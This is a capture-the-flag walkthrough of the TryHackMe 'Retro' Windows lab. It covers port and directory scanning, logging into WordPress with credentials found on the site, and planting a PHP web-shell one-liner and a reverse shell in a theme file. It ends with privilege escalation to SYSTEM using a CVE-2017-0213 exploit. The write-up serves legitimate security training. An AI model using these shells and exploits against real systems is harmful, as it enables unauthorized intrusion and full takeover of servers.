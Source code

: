 # Retro Writeup

They say there are two paths when completing this room. The first path goes as follows:
* Initial Access
* CVE-2019-1388 for SYSTEM

IF the last step doesn't work for you as it didn't for me you may follow a different path for gaining SYSTEM level access.

https://tryhackme.com/room/retro

## Task 1 Pwn

I started out with a simple nmap scan to check out ports, services, and versions.
```
nmap -sC -sV -oA nmap/common 10.10.119.28
```
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-26T18:12:10+00:00
```
So I knew we were dealing with a windows machine running an IIS webserver and remote desktop protocol enabled. Then I went to enumerate the web server. First I hit it with fuzzing using gobuster.
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15
```
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:15:21 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.204.15/retro/]
```
This gives us the answer to our first question.

From here I poked around the blog page a bit to gather more information. Doing the prequel box, Blaster, before this one helps tremendously as they are very similiar in the initial exploitation phase. We come across a potential username or password in an early blog post.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/blogpost.PNG?raw=true)

I decided to fuzz for more directories within /retro. I quickly see that this is a wordpress site with all the wp directories.
```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15/retro
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15/retro
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:22:41 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.204.15/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.204.15/retro/wp-includes/
```

So I navigated to `http://10.10.204.15/retro/wp-login.php` to try out these possible credentials. I created a not-so-quick python script to brute force passwords with the username parzival.

I'm not gonna lie this took me WAAY to long to figure out, but wade is the username and the password is the information that we found. After that we are into the wp-admin page.

From prior experience with exploiting wordpress sites I knew I could possibly upload a php reverse shell so I went right to 'Theme Editor' and copied and pasted Pentestmonkey's reverse shell into 'archive.php'. Then I navigated to the location of archives.php in the browser to run the code.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/phppentestmonkey.PNG?raw=true)

Obviously this DOES NOT WORK because the webserver is running on windows not linux.
```
└─# nc -lvnp 4444                                                                      1 ⚙
listening on [any] 4444 ...
connect to [10.6.14.57] from (UNKNOWN) [10.10.204.15] 49891
'uname' is not recognized as an internal or external command,
operable program or batch file.
```




So I swap this shell out with this simple php web shell to see if we can even get RCE. `<?php system($_GET["cmd"]);?>`
Then I navigate back to the location of the archive.php and pass in a parameter for 'cmd'.
![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/webshell.PNG?raw=true)

Great! Now that I know we have RCE and I can try a full reverse shell. I got mine from [here](https://github.com/Dhayalanb/windows-php-reverse-shell). I just had to change the ip and port. Then make the tmpdir = "C:\\inetpub\\wwwroot\\retro\\wp-content\\themes\\90s-retro". 
* Copy and paste the shell into archive.php
* Scroll down and click 'Upload File'
* Then set up a netcat listener in a terminal
* Navigate to archive.php in the browser just like before.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/reverseshell.PNG?raw=true)

After this I remembered that RDP was enabled and just for the hell of it I tried the same credentials from earlier. SURPRISE they work for RDP. This is better than our reverse shell because we have a real account instead of a service account. We can find user.txt at C:\Users\Wade\Desktop\user.txt

THIS WOULD BE THE POINT IN WHICH YOU SHOULD EXPLORE WHAT THE USER WAS TRYING TO FIX WHICH WAS CVE-2019-1388. IF IT DOES NOT WORK FOR YOU DUE TO A POP UP THEN CONTINUE ON.



![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/popup.PNG?raw=true)



After enumerating with windows-exploit-suggester.py I tried a few different CVEs for priviledge escalation but no success. The exploit I finally had success with was [CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). The CVE is extremely simple to use. You just get the exe file onto the victim  and run it. It will then open up a shell running as SYSTEM.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/root.PNG?raw=true)

Then we can read root.txt at C:\Users\Administrator\Desktop\root.txt.txt

